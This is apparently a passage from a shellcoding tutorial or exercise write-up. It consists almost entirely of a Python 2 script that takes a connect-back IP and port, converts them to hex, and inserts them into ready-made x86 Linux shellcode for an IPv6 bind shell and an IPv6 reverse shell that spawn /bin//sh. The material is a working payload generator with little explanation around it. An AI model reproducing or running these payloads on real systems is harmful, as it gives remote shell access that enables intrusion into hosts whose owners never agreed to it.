 ___

___

### CONFIGURING THE IP AND PORT:

Developed a small python script to configure our shellcode:

```
import socket
import struct
import string

def convert_ip(ip):
	
	ip1 = ''.join([hex(int(x)+256)[3:] for x in ip.split('.')])
	endian = int(ip1,16)
	
	print "\nHEX: "+"0x"+ip1
	
	ip2 = "\\x"+ip1[:2]+"\\x"+ip1[2:4]+"\\x"+ip1[4:6]+"\\x"+ip1[6:8]
	print ip+" has been converted to little-endian"+ip2
	
	return ip2
	
def convert_port(port):
	port1 = hex(port)
	port2 = str("\\x"+port1[2:4]+"\\x"+port1[4:6])
	print "PORT "+str(port)+" has been converted to "+"\\x"+port1[2:4]+"\\x"+port1[4:6]+"\n\n"
	
	return port2

if __name__ == '__main__':
	
	ip = raw_input("Enter the IP to connect-back: ")
	port = raw_input("Enter the PORT: ")
	
	ip3 = convert_ip(str(ip))
	port3 = convert_port(int(port))
	
	print "Choose your shellcode \n\n"
	
	bind_shell = ("\\x6a\\x66\\x58\\x31\\xdb\\x6a\\x06\\x6a\\x01\\x6a\\x0a\\x43\\x89\\xe1\\xcd\\x80\\x96\\x31\\xc0\\x50\\x50\\x50\\x50\\x50\\x66\\x68"+port3+"\\x66\\x6a\\x0a\\x89\\xe1\\x6a\\x1c\\x51\\x56\\x89\\xe1\\x43\\x6a\\x66\\x58\\xcd\\x80\\x53\\x56\\x89\\xe1\\x43\\x43\\x6a\\x66\\x58\\xcd\\x80\\x99\\x52\\x52\\x56\\x89\\xe1\\x43\\x6a\\x66\\x58\\xcd\\x80\\x93\\x6a\\x02\\x59\\x6a\\x3f\\x58\\xcd\\x80\\x49\\x79\\xf8\\x31\\xc9\\x51\\x6a\\x0b\\x58\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\xcd\\x80")
	print "Your Bind shell for IPv6 socket has been configured successfully: "+bind_shell+" \n\n"
	
	reverse_shell = ("\\x6a\\x66\\x58\\x31\\xdb\\x6a\\x06\\x6a\\x01\\x6a\\x0a\\x43\\x89\\xe1\\xcd\\x80\\x96\\x31\\xc0\\x50\\x68"+ip3+"\\x66\\x6a\\xff\\x50\\x50\\x66\\x50\\x50\\x66\\x68"+port3+"\\x66\\x6a\\x0a\\x89\\xe1\\x6a\\x1c\\x51\\x56\\x89\\xe1\\x43\\x43\\x6a\\x66\\x58\\xcd\\x80\\x6a\\x02\\x59\\x6a\\x3f\\x58\\xcd\\x80\\x49\\x79\\xf8\\x31\\xc9\\x51\\x6a\\x0b\\x58\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\xcd\\x80")
	print "Your Reverse shell for IPv6 socket has been configured successfully: "+reverse_shell+" \n\n"
```
